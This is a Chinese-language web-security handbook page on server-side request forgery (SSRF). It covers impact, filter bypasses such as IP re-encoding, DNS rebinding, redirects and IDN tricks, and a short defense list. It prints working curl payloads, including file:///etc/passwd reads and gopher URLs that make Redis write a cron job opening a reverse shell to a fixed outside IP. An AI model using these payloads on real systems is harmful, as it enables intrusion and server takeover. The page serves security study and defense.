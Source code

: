 SSRF
========================================

简介
----------------------------------------
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
----------------------------------------
SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

利用方式
----------------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

    curl -vvv 'dict://127.0.0.1:6379/info'

    curl -vvv 'file:///etc/passwd' 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 

相关危险函数
----------------------------------------
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

过滤绕过
----------------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

使用解析到内网的域名
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 ``xip.io`` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

利用IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 ``[::]`` ``0000::1`` 或IPv6的内网域名来绕过过滤。


利用IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ``ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` 和 ``example.com`` 等同。利用这种方式，可以用 ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` 等字符绕过内网限制。

可能的利用点
----------------------------------------
- ftp、ftps （FTP爆破）
- sftp
- tftp（UDP协议扩展） 
- dict
- gopher
- ldap
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs（连接SMB） 
- telnet 
- http、https
- mongodb
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2 命令执行 
- counchdb WEB API远程命令执行 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行

防御方式
----------------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

参考链接
----------------------------------------
- `SSRF漏洞分析与利用 <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `谈一谈如何在Python开发中拒绝SSRF漏洞 <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
- `SSRF Tips <http://blog.safebuff.com/2016/07/03/SSRF-Tips/>`_
- `SSRF in PHP <https://joychou.org/web/phpssrf.html>`_
